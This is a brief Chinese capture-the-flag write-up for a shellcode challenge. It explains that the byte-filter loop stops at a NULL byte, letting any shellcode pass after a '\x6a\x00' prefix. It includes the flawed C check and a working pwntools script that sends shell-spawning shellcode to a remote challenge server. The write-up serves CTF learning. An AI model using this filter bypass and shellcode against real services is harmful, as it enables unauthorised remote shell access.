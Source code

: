 这题让人比较无语

本来的意图是用给定的字节写shellcode

不过出题人判断逻辑出错了导致直接可以任意字节

```c
  for ( i = buf; *i; ++i )
  {
    for ( j = shellcode; *j && *j != *i; ++j )
      ;
        if ( !*j )
      return 0LL;
```

第一个循环`*i`判断是否为NULL就跳出第二个for中对字节的检查

所以只要前面指令字节带一个\x00的能运行就完了

应该是非预期

```python
from pwn import *
context.arch = 'amd64'
#p = process('./shellcode')
p = remote('34.92.37.22', 10002)
def launch_gdb():
    gdb.attach(p)

shellcode = '\x6a\x00' # jmp 
shellcode += asm(shellcraft.amd64.sh())
p.send(shellcode)
p.interactive()
```



![TIM图片20190429145624.png](https://i.loli.net/2019/04/29/5cc6a1ee57f01.png)